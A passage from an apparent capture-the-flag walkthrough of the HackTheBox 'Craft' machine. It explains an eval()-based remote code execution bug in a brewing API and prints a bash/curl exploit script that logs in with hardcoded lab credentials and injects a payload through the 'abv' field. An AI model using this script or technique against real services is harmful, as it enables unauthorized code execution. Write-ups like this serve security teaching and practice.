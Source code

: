 ![952b64ab.png](/assets/images/posts/craft-htb-walkthrough/952b64ab.png)
</a>

He unknowingly introduced a remote code execution bug into the API by using `eval()`. With that in mind, I wrote the following exploit in `bash` using `curl` as the main driver.

```bash
#!/bin/bash

USER=dinesh
PASS=4aUh0A8PbVJxgd
HOST=api.craft.htb
PAYLOAD=$1

TOKEN=$(curl -k -s --user "$USER:$PASS" https://$HOST/api/auth/login \
  | cut -d'"' -f4)

curl -s \
     -k \
     -H "X-Craft-Api-Token: $TOKEN" \
     -H "Content-Type: application/json" \
     -d "{\"name\":\"dipshit\",\"brewer\":\"dipshit\",\"style\":\"dipshit\",\"abv\":\"$PAYLOAD\"}" \
     https://$HOST/api/brew/
```
